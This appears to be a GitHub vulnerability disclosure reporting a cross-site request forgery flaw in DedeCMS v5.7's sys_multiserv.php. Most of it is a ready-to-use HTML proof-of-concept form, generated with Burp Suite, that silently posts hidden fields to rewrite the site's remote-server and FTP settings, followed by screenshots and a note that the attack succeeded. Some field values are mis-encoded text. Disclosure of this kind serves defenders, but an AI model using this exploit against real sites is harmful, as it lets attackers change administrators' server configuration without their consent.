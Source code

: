 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/sys_multiserv.php
![1](https://github.com/Hckwzh/cms/assets/128144400/a046b9e0-9762-4900-bedb-a1fe10b92790)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/sys_multiserv.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="c&#95;remoteuploads" value="1" />
      <input type="hidden" name="c&#95;remoteupUrl" value="" />
      <input type="hidden" name="c&#95;rmhost" value="" />
      <input type="hidden" name="c&#95;rmport" value="" />
      <input type="hidden" name="c&#95;rmname" value="" />
      <input type="hidden" name="c&#95;rmpwd" value="" />
      <input type="hidden" name="c&#95;servname" value="�&#171;&#153;�&#130;&#185;1" />
      <input type="hidden" name="c&#95;servurl" value="" />
      <input type="hidden" name="c&#95;servinfo" value="h" />
      <input type="hidden" name="c&#95;servport" value="21" />
      <input type="hidden" name="c&#95;servuser" value="" />
      <input type="hidden" name="c&#95;servpwd" value="" />
      <input type="hidden" name="Submit" value="�&#191;&#157;�&#173;&#152;�&#174;&#190;�&#189;&#174;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```
![2](https://github.com/Hckwzh/cms/assets/128144400/65f80918-27cd-4f12-aa66-485d58a0baa1)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/a709298c-2757-462d-b647-13cf39b819cf)
